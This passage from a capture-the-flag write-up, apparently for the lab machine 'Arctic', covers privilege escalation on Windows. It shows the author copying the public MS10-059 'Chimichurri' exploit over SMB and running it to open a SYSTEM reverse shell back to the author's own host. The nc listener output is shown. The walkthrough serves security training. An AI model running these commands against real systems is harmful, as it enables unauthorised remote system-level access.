 I did some googling around for exploit code and found [this GitHub from egre55](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri) that included an exploit for MS10-059. I was particularly drawn to the fact that this binary requires an IP and port to connect to. Many of the exploits will start a new cmd as SYSTEM, which is nice if you are standing at the computer, but not so useful from a remote shell.

I downloaded the binary (while it’s never a great idea to run exes downloaded directly from the internet, for a CTF environment, I’m willing to run it), and ran `smbserver.py share .` to share my current directory.

Then in my shell, I copied it to Arctic:

```

C:\ProgramDatap>net use \\10.10.14.47\share
net use \\10.10.14.47\share
The command completed successfully.

C:\ProgramData>copy \\10.10.14.47\share\Chimichurri.exe .
copy \\10.10.14.47\share\Chimichurri.exe .
        1 file(s) copied.

```

Now I start a `nc` listener, and run it:

```

C:\ProgramData>.\Chimichurri.exe 10.10.14.47 443
.\Chimichurri.exe 10.10.14.47 443
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>

```

I get a shell:

```

root@kali# rlwrap nc -nvlp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:50381.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ProgramData>whoami
nt authority\system

```

From here I can grab `root.txt`:

```

C:\Users\Administrator\Desktop>type root.txt
ce65ceee************************

```